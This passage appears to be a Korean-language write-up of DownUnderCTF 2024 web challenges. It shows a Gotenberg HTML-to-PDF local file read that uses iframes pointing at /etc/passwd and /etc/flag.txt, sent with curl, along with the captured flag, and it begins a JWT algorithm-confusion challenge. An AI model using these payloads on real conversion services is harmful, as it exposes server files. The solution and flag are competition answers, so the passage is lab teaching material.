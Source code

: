 8.0.3 버전 이후로 추가된 코드를 살펴봤다.    
     
test/testdata/chromium/html/index.html

```html
<div class="page-break-after">
    <h2>/etc/passwd</h2>
    <iframe src="/etc/passwd"></iframe>

    <h2>\\localhost/etc/passwd</h2>
    <iframe src="\\localhost/etc/passwd"></iframe>
</div>
```    
     
서버 내부 파일에 접근이 되는지 테스트한 코드가 있어 HTML to PDF 방법을 찾아봤다.    

https://gotenberg.dev/docs/routes   

```bash
curl \
--request POST http://localhost:3000/forms/chromium/convert/html \
--form files=@/path/to/index.html \
-o my.pdf
```               
문서에 따르면, `/forms/chromium/convert/html` 경로에 index.html 파일을 올려 PDF 파일로 결과 값을 생성한다. 테스트 코드에 명시된 경로를 `/etc/flag.txt`로 변경하고 요청을 보내면 플래그를 획득할 수 있다.   
     
### Exploit Code    

index.html
```html
<div class="page-break-after">
    <h2>\\localhost/etc/flag.txt</h2>
    <iframe src="\\localhost/etc/flag.txt"></iframe>
</div>
```

```bash
curl \
--request POST https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/html 
--form files=@index.html 
-o my.pdf     
```      
     
### Flag     
DUCTF{dEeZ_r3GeX_cHeCK5_h4h_g0t_eM}
       
              
<a id="i-am-confusion"></a>           
       
# i am confusion    
           
113 solved / 116 pts         
             
```javascript
const express = require('express')
const app = express()
const jwt = require('jsonwebtoken')
const cookieParser = require('cookie-parser')
var fs = require('fs')
const path = require('path')
const https = require('https')

... 
// algs
const verifyAlg = { algorithms: ['HS256','RS256'] }
const signAlg = { algorithm:'RS256' }

// keys
```